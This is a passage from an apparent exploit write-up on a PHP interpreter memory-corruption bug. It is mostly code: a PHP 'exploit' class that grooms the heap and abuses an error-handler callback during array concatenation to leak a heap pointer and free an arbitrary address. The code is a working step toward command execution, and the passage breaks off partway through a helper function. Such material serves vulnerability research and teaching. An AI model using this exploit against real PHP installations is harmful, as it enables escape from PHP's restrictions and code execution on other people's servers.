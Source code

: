 At this point we can:
1. Leak a pointer from memory
2. Free arbitrarily

We can use the leaked pointer to know the location of another variable that we allocate as placeholder and then free that variable.

```php
<?php

class exploit {
public function __construct($cmd) {
    $concat_result_addr = $this->leak_heap();
    print "[+] Concated string address:\n0x";
    print dechex($concat_result_addr);
    $this->placeholder = $this->alloc(0x4F, "B");
    $placeholder_addr = $concat_result_addr+0xe0;
    print "\n[+] Placeholder string address:"; 
    print "\n0x".dechex($placeholder_addr);
    print "\n[+] Before free:\n";
    debug_zval_dump($this->placeholder);
    $this->free($placeholder_addr);
    print "\n[+] After free:\n";
    debug_zval_dump($this->placeholder);
}


private function leak_heap() {
	$contiguous = [];
 		for ($i = 0; $i < 10; $i++) {
			$contiguous[] = $this->alloc(0x100, "D");
 		}
    $arr = [[1,3,3,7], [5,5,5,5]];
    set_error_handler(function() use (&$arr, &$buf) {
        $arr = 1337;
        $buf = str_repeat("\x00", 0x100);
    });
    $arr[1] .= $this->alloc(0x4A, "F"); // 0x4F - 5 from the length of "Array" string concatenated
    return $this->str2ptr($buf, 16);
}


private function free($var_addr) {
    $contiguous = [];
        for ($i = 0; $i < 10; $i++) {
            $contiguous[] = $this->alloc(0x100, "D");
        }
    $arr = [[1,3,3,7], [5,5,5,5]];
    set_error_handler(function() use (&$arr, &$buf, &$var_addr) {
        $arr = 1;
        $buf = str_repeat("AAABAACAADAAEAAF" . $this->ptr2str($var_addr) . "IAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAAyAAzAA1AA2AA3AA4AA5AA6AA7AA8AA9AA0ABBABCABDABEABFABGABHABIABJABKABLABMABNABOABPABQABRABSABTABUABVABWABXABY", 0x1);
    });
    $arr[1] .= 1337;
}


private function alloc($size, $canary) {
    return str_shuffle(str_repeat($canary, $size));
}


private function str2ptr($str, $p = 0, $n = 8) {
```